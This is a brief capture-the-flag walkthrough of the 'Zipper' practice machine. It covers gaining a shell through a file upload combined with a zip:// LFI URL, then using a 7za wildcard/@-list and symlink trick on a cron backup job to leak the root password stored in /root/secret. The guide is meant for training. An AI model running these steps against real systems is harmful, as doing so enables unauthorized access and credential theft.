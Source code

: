 
# 🧪 Zipper Walkthrough (Linux)

[Walkthrough Source](https://medium.com/@ardian.danny/oscp-practice-series-62-proving-grounds-zipper-b49a52ed8e38)

---

## 🚪 Initial Foothold

- Found port **80** open.
- Web interface allows uploading files to compress into ZIP.
- Uploaded `shell.php` file.
- Used **LFI (Local File Inclusion)** to trigger the shell:

  ```
  http://192.168.186.229/index.php?file=zip://uploads/upload_1752751124.zip#shell
  ```

- Setup a Netcat listener to receive reverse shell.

---

## 🧗‍♂️ Privilege Escalation

- Discovered **cron job** and **suspicious 7za activity** using `linpeas.sh` and `pspy32s`:

  ```
  CMD: /usr/lib/p7zip/7za a /opt/backups/backup.zip -p****************** -tzip ...
  CMD: bash /opt/backup.sh
  ```

- Inspected `/opt/backup/backup.log` and found it leaking the **root password** due to how the cron script runs.

---

## 💥 Exploit Chain

1. Cron script reads `/root/secret`:
   ```bash
   password=$(cat /root/secret)
   7za a /opt/backups/backup.zip -p$password ...
   ```

2. The full command including the password is logged.

3. Exploit steps:
   ```bash
   ln -s /root/secret gg.zip
   touch @gg.zip
   ```

   > This tricks `7za` to read `/root/secret` when building the backup.

4. Wait for cron to execute, then check the password in `/opt/backup/backup.log`.

---

## 🧠 Notes

- `7za` treats files prefixed with `@` as file lists.
- Symbolic links can bypass permissions if another process with higher privileges accesses them.

